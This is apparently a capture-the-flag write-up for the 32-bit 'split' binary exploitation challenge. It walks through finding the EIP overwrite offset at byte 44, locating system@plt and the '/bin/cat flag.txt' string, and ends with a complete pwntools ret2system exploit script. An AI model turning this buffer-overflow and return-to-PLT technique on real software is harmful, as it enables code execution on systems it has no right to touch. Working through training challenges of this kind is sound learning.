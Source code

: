Similar to the ret2win challenge, this challenge requires an input from the user. We'll start with figuring out how many bytes we need to write to overwrite EIP:

```
# gdb -q ./split32
Reading symbols from ./split32...(no debugging symbols found)...done.
gdb-peda$ pattern_create 100 input
Writing pattern of 100 chars to filename "input"
gdb-peda$ run < input

gdb-peda$ pattern_search
...
EIP+0 found at offset: 44
...
```
Again, EIP is overwrittern starting with byte 44.
Lets find the system entry in the PLT section:
```
# objdump -d ./split32 -j .plt

./split32:     file format elf32-i386


Disassembly of section .plt:
.
.
.
08048430 <system@plt>:
 8048430:	ff 25 18 a0 04 08    	jmp    *0x804a018
 8048436:	68 18 00 00 00       	push   $0x18
 804843b:	e9 b0 ff ff ff       	jmp    80483f0 <.plt>
.
.
.
```

We can also do that using pwntools:
```python
system_addr = e.plt['system']
```

Now, let's find the address of '/bin/cat flag.txt':
```
gdb-peda$ searchmem '/bin/cat flag.txt'
Searching for '/bin/cat flag.txt' in: None ranges
Found 1 results, display max 1 items:
split32 : 0x804a030 ("/bin/cat flag.txt")
```

We can also use strings. In that case, we need to add the image base address:
```
# strings --radix=x ./split32 | grep cat
   1030 /bin/cat flag.txt
```

Or, we can do that using pwntools:
```
cmd_addr = next(e.search('/bin/cat flag.txt'))
```

Final exploit script:
```python
from pwn import *

context.update(arch='i386', os='linux')

e = ELF('./split32')
system_addr = e.plt['system']
cmd_addr = next(e.search('/bin/cat flag.txt'))

p = process('./split32')
p.recvuntil('>')

payload = 'A'*44
payload += p32(system_addr)
payload += 'A'*4 # Garbage return address
payload += p32(cmd_addr)

p.sendline(payload)

p.interactive()
```